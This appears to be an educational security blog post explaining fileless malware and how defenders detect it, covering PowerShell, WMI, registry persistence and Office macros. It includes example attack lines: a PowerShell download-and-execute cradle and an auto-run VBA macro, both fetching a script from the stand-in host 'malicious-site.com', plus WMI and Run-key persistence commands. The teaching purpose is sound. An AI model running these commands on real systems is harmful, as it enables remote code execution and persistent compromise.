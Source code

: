```yaml
---
title: "Understanding Fileless Malware"
classes: wide
header:
  teaser: /assets/images/fileless/image.png
ribbon: DodgerBlue
description: "Exploring the techniques used by fileless malware to evade detection and persist in systems."
categories:
  - Malware Analysis
toc: true
date: 2024-08-26
---
```



# Understanding Fileless Malware

## What is Fileless Malware?

Fileless malware is a type of malicious software that operates without needing to install files directly onto a victim's device. Unlike traditional malware, which relies on executable files, fileless malware leverages existing software, legitimate system tools, and protocols to execute its payload. This makes detection and mitigation more challenging, as it doesn't leave behind traditional footprints that antivirus software typically looks for.

<style>
    img {
        max-width: 100%;
        height: auto;
    }
</style>

<p align="center">
    <img src="https://raw.githubusercontent.com/daniyyell-dev/draw.io/main/fileless_Malware.png" alt="Fileless Malware">
</p>

<p align="center"><em>Fileless Malware Overview</em></p>

## How Does Fileless Malware Work?

Fileless malware operates by injecting malicious code into legitimate processes running in memory. Here are some common techniques used by fileless malware:

### PowerShell Scripts

Attackers often use PowerShell, a legitimate Windows administration tool, to execute malicious scripts directly in memory. PowerShell scripts can download and execute additional payloads, conduct reconnaissance, and establish persistence.

# Example of a Malicious PowerShell Command

`powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')"`

### Windows Management Instrumentation (WMI)

WMI allows attackers to gather information and execute code without needing to drop files on the system. It is often used for lateral movement and persistence.

# Example of WMI Usage for Persistence

`wmic process call create "powershell -NoProfile -ExecutionPolicy Bypass -Command 'Get-Content malicious.ps1 | iex'"`

### Registry Manipulation

Malicious code can be stored and executed directly from the Windows registry, avoiding the file system altogether. This technique is often used to achieve persistence.

# Example of Registry Persistence

`Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -NoProfile -ExecutionPolicy Bypass -File C:\malicious.ps1"`

### Macros and Scripts

Infected macros in documents (e.g., Microsoft Word or Excel) can run malicious scripts when the document is opened. These macros can download and execute additional payloads from the internet.

# Example of a Malicious VBA Macro

vba script sample

'Sub AutoOpen()
    Dim objShell As Object
    Set objShell = CreateObject("WScript.Shell")
    objShell.Run "powershell -NoProfile -ExecutionPolicy Bypass -Command IEX (New-Object Net.WebClient).DownloadString('https://malicious-site.com/malware.ps1')", 0, True
End Sub'

### Examples of Fileless Malware Attacks

**Operation Cobalt Kitty**

In this attack, a sophisticated cyber espionage group used fileless techniques to infiltrate and persist in a corporate network. They utilized PowerShell scripts and WMI to move laterally and exfiltrate sensitive data without dropping any traditional malware files. Read more <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty: A large-scale APT in Asia carried out by the OceanLotus Group</a>


**APT28/Sofacy**

The APT28 group, also known as Sofacy, used fileless malware to target government institutions and defence contractors. They employed macros embedded in Office documents to execute PowerShell scripts, thereby compromising systems without writing files to disk. Read More here <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is FANCY BEAR (APT28)?</a>



### Detection and Prevention

Detecting fileless malware requires a multi-layered security approach, including:

#### Behavioral Analysis

Monitoring unusual behaviour patterns in legitimate processes can help identify fileless malware activity. This involves looking for abnormal usage of tools like PowerShell and WMI.

#### Endpoint Detection and Response (EDR)

EDR tools can detect suspicious activities in memory and registry that traditional antivirus solutions might miss. These tools often use machine learning and behaviour analytics to identify threats.

#### PowerShell Logging

Enabling PowerShell script block logging helps detect and investigate potentially malicious scripts. This provides visibility into the execution of commands and scripts on endpoints.

**Enable PowerShell Script Block Logging**

`Set-ItemProperty -Path "HKLM:\Software\Policies\Microsoft\Windows\PowerShell\ScriptBlockLogging" -Name "EnableScriptBlockLogging" -Value 1`

#### Least Privilege Principle

Limiting user permissions can prevent malicious scripts from executing critical system changes. Ensure that users have the minimum necessary access rights.


### Conclusion

Fileless malware represents a significant threat due to its stealthy nature and ability to evade traditional detection methods. Understanding how it operates and employing robust detection and prevention measures is crucial for protecting against these sophisticated attacks.

Stay vigilant and keep your security tools and practices up to date to defend against the ever-evolving threat landscape.

### References

1. <a href="https://www.cybereason.com/blog/operation-cobalt-kitty-apt">Operation Cobalt Kitty APT - Cybereason</a>
2. <a href="https://www.crowdstrike.com/blog/who-is-fancy-bear/">Who is Fancy Bear?</a>

